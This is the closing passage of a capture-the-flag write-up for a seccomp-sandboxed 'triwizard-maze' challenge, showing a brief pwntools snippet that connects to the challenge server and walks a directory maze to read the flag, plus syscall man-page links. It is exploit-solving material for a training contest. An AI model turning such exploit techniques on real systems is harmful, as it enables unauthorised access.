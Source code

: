 ```python

 return None
```

Finally! Now let's get the flag:

```python
from pwnlib.constants.linux.i386 import AT_FDCWD

REMOTE = remote('triwizard-maze.challs.cyberchallenge.it', 38202)

openat(AT_FDCWD 'entry') # -> this will return FD 2
flag = explore_maze(2)
assert flag is not None

print(flag)
```

### Complete exploit

See [`checker/__main__.py`](checker/__main__.py) for the final automated exploit
script, which also dumps the remote ELF before solving the challenge as
explained above.

[man-1-file]: https://manned.org/man/file.1
[man-1-readelf]: https://manned.org/man/readelf.1
[man-2-close_range]: https://manned.org/man/close_range.2
[man-2-getrandom]: https://manned.org/man/getrandom.2
[man-2-getrlimit]: https://manned.org/man/getrlimit.2
[man-2-mkdirat]: https://manned.org/man/mkdirat.2
[man-2-mmap]: https://manned.org/man/mmap.2
[man-2-openat]: https://manned.org/man/openat.2
[man-2-prctl]: https://manned.org/man/prctl.2
[man-2-readdir]: https://manned.org/man/readdir.2
[man-2-seccomp]: https://manned.org/man/seccomp.2
[seccomp-tools]: https://github.com/david942j/seccomp-tools
[wiki-bfs]: https://en.wikipedia.org/wiki/Breadth-first_search
[wiki-dfs]: https://en.wikipedia.org/wiki/Depth-first_search
